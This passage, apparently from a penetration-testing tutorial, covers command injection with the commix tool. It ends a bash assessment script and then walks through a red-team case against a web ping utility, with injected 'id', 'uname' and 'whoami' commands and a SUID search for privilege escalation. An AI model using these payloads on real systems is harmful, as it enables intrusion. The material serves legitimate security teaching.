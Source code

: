 ```bash
  echo "3. Apply the principle of least privilege for the web application user"
  echo "4. Consider using application firewalls with command injection signatures"
} > "$OUTPUT_DIR/summary_report.txt"

echo "[+] Assessment complete! Summary saved to $OUTPUT_DIR/summary_report.txt"
```

To use this script:

```bash
chmod +x commix_comprehensive.sh
./commix_comprehensive.sh "http://vulnerable-site.com/search.php?cmd=query"
```

### Example: Gaining Shell Access Through Injection Flaws

During a red team assessment for a technology company, we discovered a custom monitoring application that allowed administrators to ping hosts through a web interface. This feature contained a command injection vulnerability that we exploited:

1. **Initial Discovery**:
   - Identified a ping utility at `http://monitoring.internal.corp/tools/ping.php?host=192.168.1.1`
   - Testing for command injection by adding command separators:

   ```bash
   # Initial test with semicolon
   commix -u "http://monitoring.internal.corp/tools/ping.php?host=192.168.1.1;id"
   ```

2. **Vulnerability Confirmation**:
   ```bash
   # Confirmed the vulnerability using commix
   commix -u "http://monitoring.internal.corp/tools/ping.php?host=192.168.1.1" --batch --techniques=classic
   
   # Commix found the vulnerability and identified the injection point
   ```

3. **Environment Enumeration**:
   ```bash
   # Gathered basic system information
   commix -u "http://monitoring.internal.corp/tools/ping.php?host=192.168.1.1" --os-cmd="uname -a; whoami; id"
   
   # Discovered we were running as www-data on an Ubuntu server
   ```

4. **Privilege Escalation Reconnaissance**:
   ```bash
   # Checked for potential privilege escalation paths
   commix -u "http://monitoring.internal.corp/tools/ping.php?host=192.168.1.1" --os-cmd="find / -perm -u=s -type f 2>/dev/null"
   
   # Found that the ping utility itself had the SUID bit set
   ```
